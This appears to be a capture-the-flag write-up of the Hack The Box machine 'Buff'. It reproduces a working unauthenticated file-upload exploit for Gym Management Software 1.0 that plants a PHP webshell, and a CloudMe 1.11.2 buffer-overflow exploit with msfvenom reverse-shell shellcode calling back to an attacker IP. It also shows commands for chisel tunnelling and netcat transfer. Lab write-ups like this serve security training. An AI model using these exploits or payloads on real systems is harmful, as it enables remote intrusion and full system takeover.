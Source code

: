 ```yaml
---
image: /assets/avatars/buff.png
title: Buff Writeup
author: Valerio Casalino
style: fill
color: success
tags: [Writeups, Hackthebox]
description: Writeup for Buff (Hackthebox)
---
```


# Buff

As always, an `nmap` scan is mandatory:

```bash
sudo nmap -sC -sV -oN nmap/initial 10.10.10.198
...
Nmap scan report for 10.10.10.198
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

Enumerating more ports, we can find:

```bash
sudo nmap -sC -sV -oN nmap/full -p- 10.10.10.198
...
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
```

Going to port 8080, we find a gym website:

![image-20201022200250269](/assets/buff/image-20201022200250269.png)

There is a login form, but before trying anything, we should fuzz around. In `contacts.php`, there is an important information about the framework used: "Gym Management Software 1.0". Looking with `searchsploit` or with a simple Google search, we find a [good unauthenticated](https://www.exploit-db.com/exploits/48506) RCE to use.

So, the point is that this software does not check for an authenticated user session when accessing `/upload.php`, so we can upload a file containing PHP code with a double extension to trick the extension white-list and with a custom Content-type to trick the mime checker. More info in [the exploit-db page](https://www.exploit-db.com/exploits/48506).

```python
import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/lolz.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=lolz'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'much-lolz.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

Then run it:

```bash
python2 ./48505.py "http://10.10.10.198:8080/"
```

![image-20201022233828363](/assets/buff/image-20201022233828363.png)

If you immediately want the user flag, you should run this command.

```bash
curl -G --data-urlencode "telepathy=type C:\\Users\\shaun\\Desktop\\user.txt" "http://10.10.10.198:8080/upload/lolz.php"
```

So, you can put `nc.exe` in the target machine starting a python server on the attacker, using:

```bash
python3 -m http.server
```

You can find `nc.exe` in the package "windows-binaries" `/usr/share/windows/windows-binaries` (may vary).

Enumerate with [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and look at `shaun`'s download folder, there you can find `CloudMe_1112.exe`, with a `searchsploit` we can find the [great privesc exploit](https://www.exploit-db.com/exploits/48389). We have to edit some infos

```bash
# Put the output in the python file
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
```

So in the end the python file should look like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -b '\x00\x0a\x0d' -f py -v payload
payload =  b""
payload += b"\xda\xc0\xba\x4c\x4d\xf4\xbe\xd9\x74\x24\xf4\x5e"
payload += b"\x31\xc9\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x1a"
payload += b"\x5e\x16\x4b\x5e\x88\x54\xb4\x9e\x49\x39\x3c\x7b"
payload += b"\x78\x79\x5a\x08\x2b\x49\x28\x5c\xc0\x22\x7c\x74"
payload += b"\x53\x46\xa9\x7b\xd4\xed\x8f\xb2\xe5\x5e\xf3\xd5"
payload += b"\x65\x9d\x20\x35\x57\x6e\x35\x34\x90\x93\xb4\x64"
payload += b"\x49\xdf\x6b\x98\xfe\x95\xb7\x13\x4c\x3b\xb0\xc0"
payload += b"\x05\x3a\x91\x57\x1d\x65\x31\x56\xf2\x1d\x78\x40"
payload += b"\x17\x1b\x32\xfb\xe3\xd7\xc5\x2d\x3a\x17\x69\x10"
payload += b"\xf2\xea\x73\x55\x35\x15\x06\xaf\x45\xa8\x11\x74"
payload += b"\x37\x76\x97\x6e\x9f\xfd\x0f\x4a\x21\xd1\xd6\x19"
payload += b"\x2d\x9e\x9d\x45\x32\x21\x71\xfe\x4e\xaa\x74\xd0"
payload += b"\xc6\xe8\x52\xf4\x83\xab\xfb\xad\x69\x1d\x03\xad"
payload += b"\xd1\xc2\xa1\xa6\xfc\x17\xd8\xe5\x68\xdb\xd1\x15"
payload += b"\x69\x73\x61\x66\x5b\xdc\xd9\xe0\xd7\x95\xc7\xf7"
payload += b"\x18\x8c\xb0\x67\xe7\x2f\xc1\xae\x2c\x7b\x91\xd8"
payload += b"\x85\x04\x7a\x18\x29\xd1\x2d\x48\x85\x8a\x8d\x38"
payload += b"\x65\x7b\x66\x52\x6a\xa4\x96\x5d\xa0\xcd\x3d\xa4"
payload += b"\x23\xf8\xcb\xa8\x80\x94\xc9\xb4\xc5\x4d\x47\x52"
payload += b"\x63\x9e\x01\xcd\x1c\x07\x08\x85\xbd\xc8\x86\xe0"
payload += b"\xfe\x43\x25\x15\xb0\xa3\x40\x05\x25\x44\x1f\x77"
payload += b"\xe0\x5b\xb5\x1f\x6e\xc9\x52\xdf\xf9\xf2\xcc\x88"
payload += b"\xae\xc5\x04\x5c\x43\x7f\xbf\x42\x9e\x19\xf8\xc6"
payload += b"\x45\xda\x07\xc7\x08\x66\x2c\xd7\xd4\x67\x68\x83"
payload += b"\x88\x31\x26\x7d\x6f\xe8\x88\xd7\x39\x47\x43\xbf"
payload += b"\xbc\xab\x54\xb9\xc0\xe1\x22\x25\x70\x5c\x73\x5a"
payload += b"\xbd\x08\x73\x23\xa3\xa8\x7c\xfe\x67\xd8\x36\xa2"
payload += b"\xce\x71\x9f\x37\x53\x1c\x20\xe2\x90\x19\xa3\x06"
payload += b"\x69\xde\xbb\x63\x6c\x9a\x7b\x98\x1c\xb3\xe9\x9e"
payload += b"\xb3\xb4\x3b"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We need to run a http reverse tunnel using [chisel](https://github.com/jpillora/chisel/releases):

```bash
# On attacker
./chisel-linux server -p 8080 -reverse
```

![image-20201023002602151](/assets/buff/image-20201023002602151.png)

```powershell
# On victim
.\chisel.exe client 10.10.14.51:8080 R:8888:127.0.0.1:8080
```

![image-20201023002643050](/assets/buff/image-20201023002643050.png)

Now we can run the exploit on attacher machine!

![image-20201023025910927](/assets/buff/image-20201023025910927.png)

Hopping to another shell we have to wait for connections on netcat, then run the exploit above! We'll get a reverse shell as root :) so... profit.
